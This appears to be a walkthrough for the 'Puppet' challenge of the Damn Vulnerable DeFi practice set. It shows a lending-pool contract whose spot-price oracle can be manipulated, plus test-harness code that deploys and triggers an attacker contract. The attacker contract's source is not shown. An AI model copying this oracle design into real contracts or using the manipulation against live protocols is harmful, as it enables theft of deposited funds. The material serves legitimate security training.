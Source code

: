 # Puppet

**HINT:** Look at the function ```computeOraclePrice()``` and how it calculates the price.

<details>
<summary>Part 1</summary>
<p>

Because it calculates the price wrong we can manipulate it with a few steps 
```
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/math/SafeMath.sol";
import "../DamnValuableToken.sol";

contract PuppetPool is ReentrancyGuard {
    using SafeMath for uint256;
    using Address for address payable;

    address public uniswapOracle;
    mapping(address => uint256) public deposits;
    DamnValuableToken public token;
    
    constructor (address tokenAddress, address uniswapOracleAddress) public {
        token = DamnValuableToken(tokenAddress);
        uniswapOracle = uniswapOracleAddress;
    }

    function borrow(uint256 borrowAmount) public payable nonReentrant {
        uint256 amountToDeposit = msg.value;

        uint256 tokenPriceInWei = computeOraclePrice();
        uint256 depositRequired = borrowAmount.mul(tokenPriceInWei) * 2;
        
        require(amountToDeposit >= depositRequired, "Not depositing enough collateral");
        if (amountToDeposit > depositRequired) {
            uint256 amountToReturn = amountToDeposit - depositRequired;
            amountToDeposit -= amountToReturn;
            msg.sender.sendValue(amountToReturn);
        }        

        deposits[msg.sender] += amountToDeposit;
        require(token.transfer(msg.sender, borrowAmount), "Transfer failed");
    }

    function computeOraclePrice() public view returns (uint256) {
        return uniswapOracle.balance.div(token.balanceOf(uniswapOracle));
    }
}
```

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Now go to ```puppet.challenge.js``` and at the top of the file add:
```js
const PuppetAttacker = contract.fromArtifact("PuppetAttacker");
```
And at ```Exploit``` add:
```js
 this.attacker = await PuppetAttacker.new(
      this.token.address,
      this.lendingPool.address,
      this.uniswapExchange.address,
      { from: attacker }
    );

    await this.token.transfer(this.attacker.address, ATTACKER_INITAL_TOKEN_BALANCE, {
      from: attacker,
    });
    await this.attacker.attack(ether(`0.1`).toString(), { from: attacker });
  });
```

```sh
npm run puppet.challenge.js
```

</p>
</details>
